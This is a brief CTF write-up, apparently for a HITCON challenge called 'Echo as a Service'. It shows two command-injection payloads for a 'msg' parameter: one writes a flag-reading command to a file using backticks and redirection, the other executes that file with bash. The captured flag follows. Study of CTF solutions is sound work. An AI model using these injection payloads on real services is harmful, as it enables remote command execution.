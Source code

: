 # Echo as a Service

純黑箱 fuzzing 到發現可以寫檔: 

```
msg=/readflag    give    me    the    flag1<]``file

msg=`bash<file`
```

-> `hitcon{i_found_this_bug_during_LINECTF_but_unfortunately_it_became_1day_challenge_a_few_months_ago}`
